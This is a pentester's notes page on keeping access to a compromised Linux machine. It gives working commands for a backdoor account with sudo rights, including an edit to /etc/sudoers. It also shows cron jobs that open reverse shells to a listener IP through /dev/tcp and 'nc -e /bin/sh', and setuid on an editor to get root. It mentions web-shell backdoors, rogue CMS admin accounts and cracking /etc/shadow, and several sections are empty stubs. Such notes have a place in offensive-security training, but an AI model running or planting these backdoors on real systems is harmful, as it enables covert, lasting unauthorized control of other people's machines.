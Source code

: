 # Persistence - Rootkit - Backdoor

So if you manage to compromise a system you need to make sure that you do not lose the shell. If you have used an exploit that messes with the machine the user might want to reboot, and if the user reboots you will lose your shell.

Or, maybe the way to compromise the machine is really complicated or noisy and you don't want to go through the hassle of doing it all again. So instead you just create a backdoor that you can enter fast and easy.

## Create a new user

The most obvious, but not so subtle way is to just create a new user \(if you are root, or someone with that privilege\) .

we can use adduser to add a user account. Ideally we should also add our new user to the sudoers group so we have root privileges.

```
adduser pelle
adduser pelle sudo
```

Now if the machine has `ssh` you will be able to ssh into the machine.

On some machines, older Linux I think, you have to do

```
useradd pelle
passwd pelle
echo "pelle    ALL=(ALL) ALL" >> /etc/sudoers
```

## Crack the password of existing user

Get the `/etc/shadow` file and crack the passwords. This is of course only persistent until the user decides to change his/her password. So not so good.

## SSH key

Add key to existing ssh-account.

## Cronjob NC

Create cronjob that connects to your machine every 10 minutes. Here is an example using a bash-reverse-shell. You also need to set up a netcat listener.

Here is how you check if cronjob is active

```
service crond status
pgrep cron
```

If it is not started you can start it like this

```
service crond status
/etc/init.d/cron start
```

```
crontab -e
*/10 * * * * 0<&196;exec 196<>/dev/tcp/192.168.1.102/5556; sh <&196 >&196 2>&196
```

```
/10 * * * * nc -e /bin/sh 192.168.1.21 5556
```

Listener

```
nc -lvp 5556
```

Sometimes you have to set the user

```
crontab -e
*/10 * * * * pelle /path/to/binary
```

More here: [http://kaoticcreations.blogspot.cl/2012/07/backdooring-unix-system-via-cron.html](http://kaoticcreations.blogspot.cl/2012/07/backdooring-unix-system-via-cron.html)

## Metasploit persistence module

Create a binary with malicious content inside. Run that, get meterpreter shell, run metasploit persistence.

[https://www.offensive-security.com/metasploit-unleashed/binary-linux-trojan/](https://www.offensive-security.com/metasploit-unleashed/binary-linux-trojan/)

If you have a meterpreter shell you can easily just run `persistence`.

## Backdoor in webserver

You can put a cmd or shell-backdoor in a webserver.

Put backdoor on webserver, either in separate file or in hidden in another file

## Admin account to CMS

Add admin account to CMS.

## Mysql-backdoor

Mysql backdoor

## Hide backdoor in bootblock

## Nmap

If the machine has nmap installed:

[https://gist.github.com/dergachev/7916152](https://gist.github.com/dergachev/7916152)

## Setuid on text-editor

You can setuid on an editor. So if you can easily enter as a www-data, you can easily escalate to root through the editor.

With `vi` it is extremely easy. You just run `:shell`, and it gives you a shell.

```
# Make root the owner of the file
chown root myBinary

# set the sticky bit/suid
chmod u+s myBinary
```

## References

Read this  
[https://gist.github.com/dergachev/7916152](https://gist.github.com/dergachev/7916152)

This is a creat introduction  
[http://www.dankalia.com/tutor/01005/0100501002.htm](http://www.dankalia.com/tutor/01005/0100501002.htm)

